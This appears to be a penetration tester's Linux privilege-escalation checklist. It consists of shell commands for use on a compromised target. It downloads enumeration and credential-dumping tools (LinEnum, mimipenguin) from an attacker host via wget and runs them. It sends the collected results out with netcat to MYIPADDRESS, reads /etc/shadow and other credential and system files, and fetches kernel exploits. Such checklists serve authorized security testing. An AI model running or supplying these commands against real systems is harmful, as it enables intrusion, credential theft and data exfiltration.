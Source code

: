 ```

# Set up webserver
cd /root/Dropbox/Scripts/Post_Linux/Host_Scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://MYIPADDRESS:8080/ -r; mv MYIPADDRESS:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linuxprivchecker.py unix-privesc-check mimipenguin.sh mimipenguin.py

mkdir checks; ./LinEnum.sh -t -k password > checks/linenum && python linuxprivchecker.py extended > checks/linuxpriv && ./unix-privesc-check standard > checks/unixpriv &

#Uploads Files
Host:
cd /root/Dropbox/Engagments/INSERTIPADDRESS/privesc; nc -lvnp 80 > checks.tar.gz

Target:
tar -zcvf checks.tar.gz checks ;nc -w 3 MYIPADDRESS 80 < checks.tar.gz

Host:
tar xvzf checks.tar.gz

```


### Basic info

```
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts
```

- OS:
- Version:
- Kernel version:
- Architecture:
- Current user:

**Devtools:**
- GCC:
- NC:
- WGET:

### Kernel exploits

```
cd /root/Dropbox/Engagements/INSERTIPADDRESS/exploits && python -m SimpleHTTPServer 80
wget http://MYIPADDRESS/<name>

site:exploit-db.com kernel version

perl /root/Dropbox/Scripts/Post_Linux/linux-exploit-suggester-2/linux-exploit-suggester-2.pl -k 2.6
python /root/Dropbox/Scripts/Post_Linux/AutoLocalPrivilegeEscalation/auto_searchsploit.py 2.6
```
